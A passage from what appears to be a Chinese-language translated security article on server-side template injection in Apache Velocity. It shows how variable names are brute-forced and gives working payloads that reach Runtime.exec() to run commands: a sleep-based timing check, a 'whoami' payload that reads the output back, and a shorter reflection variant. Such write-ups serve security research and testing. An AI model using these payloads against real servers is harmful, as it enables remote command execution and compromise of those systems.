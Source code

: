     ```

Velocity
--------

`Velocity`是另一个流行的Java模板框架，非常难exploit。没有“安全注意事项”页面来指出存在风险的函数和内部变量。下面这张截图显示的是用Burp暴力破解变量名，左侧是payload右边是服务器的返回值。

![pic7](http://drops.javaweb.org/uploads/images/8059c8979b093ae52fe24549654afcb4a8d3f38b.jpg)

变量`class`看起来有用，因为它返回了一个`Object`类的`Class`对象。通过Google找到了这个链接[https://velocity.apache.org/tools/releases/2.0/summary.html](https://velocity.apache.org/tools/releases/2.0/summary.html):

![pic8](http://drops.javaweb.org/uploads/images/b9cc19788705365687780f75a51fe6a1eecfae74.jpg)

可以看到一个方法和一个属性：

![pic9](http://drops.javaweb.org/uploads/images/560f65f5110395328fd5d315e56989a350e3886b.jpg)

我们可以把`$class.inspect`和`$class.type`结合起来构造任意的对象。然后我们就可以通过`Runtime.exec()`执行任意命令了。这个想法用下面的代码可以确认，这段代码会造成一个延迟。

```
$class.inspect("java.lang.Runtime").type.getRuntime().exec("sleep 5").waitFor()
[5 second time delay]
0

```

获取命令执行结果有一点麻烦：

```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
tomcat7

```

#### 补充：

不得不说原文作者的方法有点麻烦，而且这种方式只能用在`Velocity Tool`中，不能用在`Velocity Engine`中，其实这个直接用反射就可以，代码如下：

```
#set ($exp = "exp")
$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("whoami")

```

0x02 两个案例
=====
